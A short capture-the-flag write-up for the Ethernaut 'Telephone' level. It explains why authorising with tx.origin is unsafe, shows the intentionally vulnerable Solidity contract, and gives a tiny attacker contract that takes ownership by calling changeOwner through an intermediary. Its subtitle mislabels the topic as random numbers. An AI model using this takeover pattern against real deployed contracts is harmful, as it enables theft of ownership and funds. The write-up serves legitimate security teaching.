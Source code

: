 # Ethernaut 04: Telephone - Solidity understanding tx.origin

Learn about random numbers in Solidity

## The Task Intro

tx.origin can cause someone to use their contract and execute something different on your behalf. For example to trick someone to use a malicous contract, that will transfer the persons token without consent to another address (pishing).

Avoid using tx.origin, unless a call like tx.origin==msg.sender, which equals a regular wallet.

## The Task Code

```apache
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## The Solution

A user A deploys this contract. A direct call to the changeOwner function does not allow anybody to change the owner. BUT:

Anyone else deploying another contract B, that calls contract A changeOwner function, can claim ownership.

Lesson: tx.origin==msg.sender, meaning it is a direct call from a persons wallet, is the only use case of tx.origin.

```apache
contract Crack {
    Telephone tp;

    constructor (Telephone _tp){
        tp=_tp;
    }

    function attack(address newOwner)external{
        tp.changeOwner(newOwner);
    }
}
```
